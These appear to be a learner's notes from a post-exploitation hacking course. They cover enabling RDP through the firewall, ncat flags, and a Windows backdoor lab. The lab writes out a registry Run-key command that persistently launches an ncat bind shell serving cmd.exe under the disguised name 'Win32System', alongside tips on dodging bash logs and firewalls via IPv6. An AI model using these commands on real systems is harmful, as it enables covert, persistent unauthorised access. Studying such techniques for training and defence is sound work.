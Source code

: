 `set rule group=”remote desktop”` - assigning a value to that specific group

`enable=Yes` - allow RDP Connections.

![Screenshot (1).png](Cybrary%20-%20Post%20Exploitation%20Hacking%2059425cd85e1b4360a88d803c142753a4/Screenshot_(1).png)

most of the third party RDP can be connected via SSH. 

![Screenshot (2).png](Cybrary%20-%20Post%20Exploitation%20Hacking%2059425cd85e1b4360a88d803c142753a4/Screenshot_(2).png)

## Ncat

if you can control it, use IPv6, because a lot of the firewalls are not configured to block to examine IPv6.

if you are using the `--sh-exec` you can run a command of the victim’s machine (if it’s linux) and don’t can get written in the bash log file (there is not evidence if you running this command.)

`-m` - the maximum number if connections

`-d` - delay time between read/write

`-o` - dump session data into a file (creates a log of all the command that you run)

`-x` - creates a log and dump it in a hex-type file  

 

## Windows Ncat Backdoor lab

`ncat -lvvnp 12345` :

`-l` listening at port `12345`

`vv` - verbosity

`-n` - send the result back exactly to the host name that i gave you. without running it into the trough DNS.

`-p` - at the port `12345`

`-e` - execute a command (you can tell it to execute a program within the machine like `cmd.exe`)

ncat is cool but it have one problem, it’s needing to open a windows when it’s running, but you can type this command :

`reg add HKLM\software\microsoft\windows\currentversion\run /v Win32System /t REG_MULTI_SZ /d ”C:\ncat.exe -lp 12345  -e cmd.exe”`

`reg add` - adding to the registry at a specific path (the current path it’s path to the startup software)

`/v Win32System` - the name of the file / program that will be run 

`/t REG_MULTI_SZ` - the datatype of the file, 

because we’re modifying the registration e need to have admin privileges, so the file that we created will also have admin privileges which is good.

 but this is not good because we solved the problem of automating the listening process, but this time windows is still going to appear in the firewall warning the user on open ports, to solve that we need to tell the fire wall that it’s OK.  
